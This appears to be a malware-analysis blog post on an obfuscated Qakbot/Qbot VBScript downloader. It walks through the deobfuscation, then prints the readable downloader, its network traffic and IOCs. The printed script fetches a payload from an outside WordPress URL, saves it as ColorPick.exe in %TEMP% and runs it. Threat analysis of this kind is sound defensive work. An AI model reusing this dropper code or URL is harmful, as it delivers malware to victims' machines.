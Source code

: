 ```yaml
---
weight: 4
title: "Qakbot/Qbot Downloader"
date: 2020-02-12
draft: false
author: "c3rb3ru5d3d53c"
description: "Analysis of a Qakbot/Qbot Downlaoder"
images: []
tags: ["QakBot", "QBot", "Bot"]
categories: ["Malware"]
lightgallery: true
---
```


## Situation:

I came across an interesting obfuscated sample on `Any.Run`.

## Metadata:

- `db2614353dc6c29dbe323dbeafe6b781`

## Analysis:

The sample has a ton of comments making the file size total around `~4mb`.

This was easily parsed out with `sed 's/^\x27//'`.

The next step is to idenify where code is evaluated which was here `exECuTeglOBal sHLW(iDxY)`.

Changed this to `WScript.Echo` then also had to backtrack for a variable which defined before the evaluation.

This variable contained an array of strings which contain object names and the downloader URL, User-Agent etc.

I also had to comment out the part which causes it to sleep for `30` seconds.

Below is the script after everything has been put into a readable format.

```js
Wscript.Sleep 30000
on error resume next
set a = WScript.CreateObject("WScript.Shell")
set b = WScript.CreateObject("Scripting.FileSystemObject")
f = a.ExpandEnvironmentStrings("%TEMP%") & "\x.url"
set c = a.CreateShortcut(f)
c.TargetPath = "an"
c.Save
if b.FileExists(f) = false Then
	e = a.ExpandEnvironmentStrings("%TEMP%") & "\ColorPick.exe"
	Call u
	sub u
		set d = createobject("MSXML2.ServerXMLHTTP.6.0")
		set w = createobject("Adodb.Stream")
		d.Open "GET", "http://mostasharanetalim.ir/wp-content/uploads/2020/02/recent/444444.png", False
		d.setRequestHeader "User-Agent", "HanamiRuby"
		d.Send
		with w
			.type=1
			.open
			.write d.responseBody
			.savetofile e, 2
		end with
	end sub
	WScript.Sleep 60000
	a.Exec(e)
end if
```

### Network Traffic:
```http
GET /wp-content/uploads/2020/02/recent/444444.png HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-us
User-Agent: HanamiRuby
Host: mostasharanetalim.ir
```

The payload named ColorPick.exe `Qakbot/QBot` will be dropped to the `%TEMP%` folder.

## IOCS:

```http
db2614353dc6c29dbe323dbeafe6b781
hxxp://mostasharanetalim[.]ir/wp-content/uploads/2020/02/recent/444444[.]png
User-Agent: HanamiRuby
```

## References:
- [Samples](/samples/2020-02-12-qakbot-downloader.zip)
- [Any.Run](https://app.any.run/tasks/d93b5d16-b34d-4f9f-ae35-6e5feabfb4e3/)
- [VirusTotal](https://www.virustotal.com/gui/file/557daae4c867c0f543cdfda80a85dd4e4dfd268e11861739b0654cbf09c06b31/detection)
- [Twitter](https://twitter.com/c3rb3ru5d3d53c/status/1227767571547590657)
